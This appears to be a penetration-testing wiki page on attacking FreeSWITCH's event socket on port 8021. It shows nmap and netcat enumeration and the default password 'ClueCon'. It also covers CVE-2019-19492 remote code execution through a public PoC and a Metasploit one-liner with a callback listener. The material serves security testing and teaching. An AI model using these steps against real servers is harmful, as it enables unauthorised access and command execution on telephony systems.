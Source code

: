 # 8021 - FreeSWITCH

`FreeSWITCH` is an open-source VoIP platform commonly used for PBX systems, SIP trunking, and conferencing services. The `mod_event_socket` module in FreeSWITCH opens a TCP socket—typically on port `8021`—which allows external applications to communicate with the switch using a command/response protocol.

This interface should **never be exposed externally** without robust access controls. If an attacker guesses or knows the `event_socket_password`—which defaults to `ClueCon` in many installations—they can authenticate and issue commands to the FreeSWITCH server. With successful authentication, an attacker could list and manage calls, inject audio or messages, execute arbitrary dial plans, and potentially escalate privileges further depending on the system's configuration.

## Enumeration

```bash
# TCP scan with nmap
PORT     STATE SERVICE       VERSION

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

# Manual service probbing
$ nc -nv 192.168.244.151 8021
(UNKNOWN) [192.168.244.151] 8021 (zope-ftp) open
Content-Type: auth/request
...
Content-Type: text/disconnect-notice
Content-Length: 67

Disconnected, goodbye.
See you at ClueCon! http://www.cluecon.com/
```

Upon probing with `nc`, the connection to the port succeeds and returns the message: `Content-Type: auth/request`, indicating that `FreeSWITCH` is prompting for a password. Authentication is usually performed using the command `auth <password>`. If the password is correct, the server responds with `Content-Type: command/reply Reply-Text: +OK accepted`.

## Attacks

```bash
# Check default credentials
$ creds search freeswitch
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| freeswitch | <blank>  | ClueCon  |
+------------+----------+----------+
```

FreeSWITCH versions `1.6.10` through `1.10.1` are **vulnerable to RCE** ([CVE-2019-19492](https://nvd.nist.gov/vuln/detail/CVE-2019-19492)) due to a hardcoded default password (`ClueCon`) in the `event_socket.conf.xml` file. If unchanged, this allows remote attackers to authenticate to the Event Socket interface and execute arbitrary system commands through the FreeSWITCH service, making it a critical entry point for compromising VoIP infrastructure.

The default configuration files for FreeSwitch are under `/etc/freeswitch/autoload_configs/`:

{% code overflow="wrap" %}
```bash
# Recurvise, case-insensitive search
$ grep -Ri password

$ cat event_socket.conf.xml | grep password
    <param name="password" value="ClueCon"/>
```
{% endcode %}

{% tabs %}
{% tab title="Chocapikk PoC" %}
This [PoC](https://github.com/Chocapikk/CVE-2019-19492) allows easy exploitation of the above vulnerability:

```bash
$ uv run exploit.py --target <target>
# id
```
{% endtab %}

{% tab title="MSF" %}
A [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/freeswitch_event_socket_cmd_exec/) exists for the above RCE vulnerability:

{% code overflow="wrap" %}
```bash
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
msf exploit(freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix (In-Memory)
    1   Linux (Dropper)
    2   PowerShell (In-Memory)
    3   Windows (In-Memory)
    4   Windows (Dropper)
    
msf exploit(freeswitch_event_socket_cmd_exec) > set TARGET <target-id>
msf exploit(freeswitch_event_socket_cmd_exec) > show options
msf exploit(freeswitch_event_socket_cmd_exec) > exploit

# Inline command
sudo msfconsole -q -x "use exploit/multi/misc/freeswitch_event_socket_cmd_exec; set TARGET 3; set RHOSTS <target-ip>; set LHOST tun0; run;"
```
{% endcode %}
{% endtab %}
{% endtabs %}
